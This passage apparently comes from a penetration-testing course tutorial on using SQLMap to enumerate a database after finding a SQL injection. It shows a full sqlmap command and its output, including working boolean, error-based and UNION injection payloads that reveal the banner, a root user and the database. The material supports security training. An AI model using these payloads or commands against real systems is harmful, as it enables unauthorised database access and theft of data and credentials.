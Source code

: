 Another example is retrieving all the usernames (i.e., tag `<users>`). There are two queries used, depending on the situation. The query marked as `inband` is used in all non-blind situations (i.e., UNION-query and error-based SQLi), where the query results can be expected inside the response itself. The query marked as `blind`, on the other hand, is used for all blind situations, where data has to be retrieved row-by-row, column-by-column, and bit-by-bit.

---

## Basic DB Data Enumeration

Usually, after a successful detection of an SQLi vulnerability, we can begin the enumeration of basic details from the database, such as the hostname of the vulnerable target (`--hostname`), current user's name (`--current-user`), current database name (`--current-db`), or password hashes (`--passwords`). SQLMap will skip SQLi detection if it has been identified earlier and directly start the DBMS enumeration process.

Enumeration usually starts with the retrieval of the basic information:

- Database version banner (switch `--banner`)
- Current user name (switch `--current-user`)
- Current database name (switch `--current-db`)
- Checking if the current user has DBA (administrator) rights (switch `--is-dba`)

The following SQLMap command does all of the above:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql' 
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
```